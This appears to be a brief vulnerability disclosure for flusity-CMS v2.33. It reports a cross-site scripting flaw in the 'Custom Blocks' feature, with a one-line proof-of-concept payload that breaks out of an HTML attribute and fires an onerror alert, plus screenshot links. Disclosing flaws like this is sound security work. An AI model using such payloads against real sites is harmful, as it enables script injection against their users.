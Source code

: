 target:https://github.com/flusity/flusity-CMS
version: v2.33

There is Cross-Site Scripting (XSS)  vulnerability within the 'Custom Blocks' .

![1](https://github.com/LY102483/cms/assets/100592257/3019ed8c-ecd5-4d19-9ef2-6178ca1ba009)


poc:
```
 "><img src=1 onerror=alert(1)> 
```
successed

![2](https://github.com/LY102483/cms/assets/100592257/4fa71ca4-7507-4632-9b44-f7522b6c9f0b)
